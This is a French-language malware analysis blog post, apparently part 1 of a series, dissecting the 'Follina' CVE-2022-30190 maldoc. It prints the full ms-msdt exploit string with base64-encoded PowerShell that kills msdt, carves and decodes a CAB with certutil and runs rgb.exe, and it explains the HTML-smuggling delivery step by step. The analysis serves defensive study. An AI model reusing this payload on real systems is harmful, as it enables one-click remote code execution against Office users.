 ```yaml
---
title: "CVE-2022-30190 \"Follina\" - part 1"
date: 2022-07-01
author: "Hugo Contributors"
---
```







## # Billet 1



### **TL-DR;**

Le 27 mai 2022 [@nao-sec](https://twitter.com/nao_sec) découvre pendant le reverse hunting sur VirusTotal un fichier Word mis en ligne depuis la Biélorussie, intitulé "**05-2022-0438.doc**"( [06727ffda60359236a8029e0b3e8a0fd11c23313](https://www.virustotal.com/gui/file/4a24048f81afbe9fb62e7a6a49adbd1faf41f266b5f9feecdceb567aec096784) ).

Après avoir procédé a l'analyse de celui-ci Kevin Beaumont  découvre un vecteur d'attaque inconnu qui abuse du composant [msdt](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/msdt) (Microsoft Support Diagnostic Tool) afin d'obtenir l'exécution du code arbitraire. Il qualifiera la vunérabilité comme étant un 0-Day et il lui donnera le nom de "Follina" d'après le nom d'un commune italienne de Trévise.

Le 30 mai 2022 Microsoft attribue l'identificateur **CVE-2022-30190** à la vulnérabilité en y publient des [correctifs](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2022-30190) le 14 juin 2022. 

Plusieurs démonstrateurs sortis rapidement confirment l'exploitabilité de cette faille tout en découvrant d'autres vecteurs d'attaque inédits. A partir de là des rapports font état de l'identification de plusieurs exploits armés, attribués à des acteurs malveillants connus.



## 	**1.Analyse de l'exploit initial**

Le triage initial du document confirme qu'il s'agit d'un document MS Word 2007+ pouvant être traîté comme une archive zip :

![](/img/img1.png)



![](/img/img2.png)




Après l'extraction du contenu on obtient l'aborescence suivante :

![](/img/img3.png)




D'un interêt particulier est le fichier "**document.xml.rels**" - fichier XML qui met en correspondance les relations au sein du fichier . docx (entre les tables de polices, les paramètres du document, les commentaires, les notes de bas de page, les définitions de style, les définitions de numérotation) avec les ressources externes a celui-ci, telles que des URL et des images.

A l'ouverture de celui-ci on remarque parmi les URLs légitimes l'appel vers un URL suspicieux :

![](/img/img4.png)



En effet, à l"ouverture du fichier l'URL suivant chargera la ressouce HTML externe **RDF8421.html** ([92661e88ed93b873857741dfae58e08da6c3e312](https://www.virustotal.com/gui/file/764a57c926711e448e68917e7db5caba988d3cdbc656b00cd3a6e88922c63837)):

​                    hxxps://www\[.\]xmlformats.com/office/word/2022/wordprocessingDrawing/RDF842l.html! 

La téchnique par laquelle les adversaires peuvent faire passer des données et des fichiers à travers les filtres de contenu en cachant les charges malveillantes dans des fichiers HTML apparemment inoffensifs est appelé **contrebande HTML** ([HTML smuggling](https://attack.mitre.org/techniques/T1027/006/)).

Le document HTML téléchargé commence par une balise <script> et comprend une quantité importante de caractères "A" commentés, qui (étant donné qu'il ne s'agit que de commentaires), semblent ne servir à rien. Il se trouve qu'il s'agit du remplissage ("padding") du code, une quantité importante de caractères nécessaire pour que l'exploit fonctionne (4096 octets).

En bas de la page on trouve l'expression suivante :

![](/img/img5.png)

Voici la logique d'execution de l'exploit :

```
window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_LaunchMethod=ContextMenu IT_SelectProgram=NotListed IT_BrowseForFile=h$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'JGNtZCA9ICJjOlx3aW5kb3dzXHN5c3RlbTMyXGNtZC5leGUiO1N0YXJ0LVByb2Nlc3MgJGNtZCAtd2luZG93c3R5bGUgaGlkZGVuIC1Bcmd1bWVudExpc3QgIi9jIHRhc2traWxsIC9mIC9pbSBtc2R0LmV4ZSI7U3RhcnQtUHJvY2VzcyAkY21kIC13aW5kb3dzdHlsZSBoaWRkZW4gLUFyZ3VtZW50TGlzdCAiL2MgY2QgQzpcdXNlcnNccHVibGljXCYmZm9yIC9yICV0ZW1wJSAlaSBpbiAoMDUtMjAyMi0wNDM4LnJhcikgZG8gY29weSAlaSAxLnJhciAveSYmZmluZHN0ciBUVk5EUmdBQUFBIDEucmFyPjEudCYmY2VydHV0aWwgLWRlY29kZSAxLnQgMS5jICYmZXhwYW5kIDEuYyAtRjoqIC4mJnJnYi5leGUiOw=='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe IT_AutoTroubleshoot=ts_AUTO\"";
```

**ms-msdt**: est le shéma ou le géstionnaire de protocole ("*protocol handler*"). Son rôle est de permettre l'accès à une resource dans son format natif - dans notre cas à l'invocation du binaire natif **msdt.exe**, avec les paramètres  **IT_BrowseForFile** qui incluent de la syntaxe PowerShell embarquée et encodée dans un blob **base64**. Détourner le fonctionnement des binaires "officiels" d'un système est appelé "*living off the land*" (LOLBINS).

L'abus des gestionnaires de protocole MS Office à été amplement [docummenté](https://blog.syss.com/posts/abusing-ms-office-protos/) auparavant mais jamais observé dans des cas réels d'exploitation ("*in the wild - ITW*").

Une fois le blob en base64 décodé on obtient le code suivant :

![](/img/img6.png)

Les étapes d'execution observées sont comme suit :

- capture du cmd.exe dans une variable
- démarrage avec une fenêtre cachée pour
  - tuer **msdt.exe** s'il est en exécution
  - balayer les fichiers présents dans **05-2022-0438.rar** à la recherche de la chaîne de caractères "TVNDRgAAAA" qui correspond,après le décodage base64,à la signature [MSCF](https://www.file-recovery.com/cab-signature-format.htm) du format de fichier .cab
  - stocker ce fichier .cab en tant que **1.t**
  - decoder celui-ci (base64) à l'aide de **certutil** et le sauvgarder en tant que **1.c**
  - extraire le fichier .cab **1.c** dans le répertoire d'execution
  - executer le binaire **rgb.exe** qui s'y trouve

Le fait d'utiliser le format **Microsoft cabinet** (.cab) a du sens car c'est le format sous lequel msdt.exe va archiver le paquets de diagnostique qu'il envoie au support pour depannage.

L'impact de son'exécution n'est pas connu (car le binaire rgb.exe n'a pas pu être récuperé) mais le chemin d'execution peut resembler à ceci :

![](/img/img8.png)

Par conséquent on peut inférer quelques **conclusions** :

a)	L'utilisation d'une même nom pour le document malicieux ("*maldoc*") comme pour l'archive .rar initiale laisse supposer que le vecteur d'attaque correspond à l'archive .rar probablement expedié en tant que pièce jointe dans une **campagne de phishing**.

b)	La nouvelle technique d'accès initial qui permet aux acteurs malicieux d'exécuter du code **en un seul clic** ( *"1-click RCE"*) à été implémenté pour contourner le blocage des macros MS Office [annoncé par Microsoft](https://docs.microsoft.com/en-us/deployoffice/security/internet-macros-blocked) au début de l'année. 

c)	Une recherche par similarité sur VirusTotal nous perment de conclure qu'il ne s'agit pas d'un échantion isolée mais d'un élement appartenant à une [**campagne de plus large envergure**](https://www.virustotal.com/graph/4a24048f81afbe9fb62e7a6a49adbd1faf41f266b5f9feecdceb567aec096784)

 ![](/img/img7.png)



d)	Enfin, l'hypotèse concernant l'utilisation de cette technique dans des **campagnes ciblées** est supporté par le fait que, suite au recherches, des échantillons datant du mois d'avril et même de [2021](https://www.fortinet.com/blog/threat-research/analysis-of-follina-zero-day) en provenance de la Russie et [de la Chine](https://blog.sekoia.io/msdt-abused-to-achieve-rce-on-microsoft-office/) ont été également documentés. 

e)	Etant donné qu'il existent de nombreux autres gestionnaires de protocoles ( tel que skype:/ ms-site:/ ou ms-teams:/) on peut supposer que la surface d'attaque est [potentiellement considérable](https://0b3dcaf9-a-62cb3a1a-s-sites.googlegroups.com/site/zerodayresearch/Moniker_Magic_final.pdf?attachauth=ANoY7cqxRlTAB3hf0PuH1QM3YyM1OB4L9uzEWYItg6GK8ULyvASPgXX4u62oeWKn1u43hVL4wPZGhwUu8s5vbT5GevRASdGTxlKWbN9GiZBEh_z1Rk7cZ1CygDGASM-G_hHfj-rUwb3cEvHNS6s01hC0zKJbsK_28GOSWYS0bR38QbT_ZBLg83X94mlv8_IC679m7U85W9voH9kmoGxCYHA2IDgRDHs-hd1E_ltJJ161_M-DnC6lT1E%3D&attredirects=0). On peut donc s'attendre à des **nouveaux vecteurs d'attaque** exploitables dans le futur. 



A suivre...









